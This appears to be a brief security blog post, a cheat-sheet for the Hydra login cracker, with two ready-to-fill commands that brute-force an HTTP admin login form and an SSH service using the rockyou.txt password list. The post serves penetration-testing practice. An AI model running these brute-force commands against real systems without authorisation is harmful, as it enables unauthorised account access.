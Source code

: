 ```yaml
---
layout: post
title: Hydra 
author: Edwards 
date: 2020-11-15 
math: true
---
```


_Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely._

## Brute force login page :
(example)
```bash
hydra -l <username> -P /home/edwards/Downloads/rockyou.txt <target_ip>  http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
``` 

- -l LOGIN. 
- -P password FILE.

## Brute force ssh :
```bash
hydra -l <username> -P /home/edwards/Downloads/rockyou.txt ssh://<ip> -s <port>
```

[!git](https://github.com/vanhauser-thc/thc-hydra)
